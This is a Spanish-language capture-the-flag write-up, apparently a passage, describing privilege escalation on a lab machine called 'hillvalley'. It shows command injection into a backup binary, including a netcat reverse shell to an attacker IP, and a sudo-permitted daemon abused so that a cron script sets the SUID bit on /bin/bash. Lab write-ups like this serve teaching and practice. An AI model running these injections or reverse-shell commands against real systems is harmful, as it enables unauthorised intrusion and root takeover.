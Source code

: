 Ahora sabiendo esto procedemos a abusar del binario desde la maquina victima:
```bash
marty@hillvalley:/usr/local/bin$ ./backup_runner testing.txt; whoami
tar: Removing leading `/' from member names
marty
```

Ahora necesitamos obtener una shell como el usuario
```bash
marty@hillvalley:/usr/local/bin$ ./backup_runner ';nc -c /bin/bash 192.168.100.26 444;'
tar: Cowardly refusing to create an empty archive
Try 'tar --help' or 'tar --usage' for more information.
```
###### Usuario `[ Docbrown ]`:
Ahora tenemos una session como este usuario y listando los permisos de este usuario
```bash
sudo -l

User docbrown may run the following commands on hillvaley:
    (root) NOPASSWD: /usr/local/bin/time_daemon
```

Si ejecutamos el binario, Tenemos lo siguiente
```bash
docbrown@hillvalley:/usr/local/bin$ sudo -u root /usr/local/bin/time_daemon
[FLUX] No existe el archivo /tmp/sync: No such file or directory
```

Necesitamos un archivo **sync** por lo que procedemos a crearlo con contenido malicioso para ver que pasa
```bash
# Archivo sync
docbrown@hillvalley:/tmp$ sudo -u root /usr/local/bin/time_daemon
[88MPH] Sincronización completada. Listo para viajar.
```

No funciono los permisos **SUID** a la bash de **root** pero se creo un nuevo archivo:
```bash
docbrown@hillvalley:/usr/local/bin$ ls -la

-rwxr-xr-x  1 root root    20 Sep  3 20:51 flux_admin.sh
```

Sabemos que este archivo es el que se esta ejecutando como tarea **cron**, Asi que necesitamos ver como infectarlo con codigo maliciioso
No fue necesario ya que revisando su contenido, Vemos lo siguiente
```bash
docbrown@hillvalley:/usr/local/bin$ cat flux_admin.sh 
chmod u+s /bin/bash
```

Al momento de que creamos el archivo **sync** con codigo malicioso, y la realiza la sincronizacon tambien se transifirio la inyeccion para otorgar permisos **SUID** a la bash de **root**
Ahora solo revismas los permisos de la **bash**
```bash
docbrown@hillvalley:/usr/local/bin$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 18 19:47 /bin/bash
```
